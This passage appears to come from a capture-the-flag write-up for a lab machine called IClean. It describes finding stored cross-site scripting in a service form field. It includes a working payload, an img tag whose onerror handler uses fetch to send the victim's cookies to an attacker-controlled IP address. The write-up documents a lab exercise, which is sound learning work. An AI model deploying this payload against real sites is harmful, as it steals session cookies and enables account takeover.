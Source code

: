 ![Writeup-1.png](/assets/images/Machines/IClean/Writeup-1.png)

### XSS

After sending the email we get message that our email will be seen by `management team`

![Writeup-2.png](/assets/images/Machines/IClean/Writeup-2.png)

I first tried XSS on `email` field, but it didn't work. After trying it on different field like `service` we got a callback

Payload:
```html
<img src='http://10.10.16.74/' onerror='fetch("http://10.10.16.74?c="+document.cookie)' />
```

![Writeup-3.png](/assets/images/Machines/IClean/Writeup-3.png)
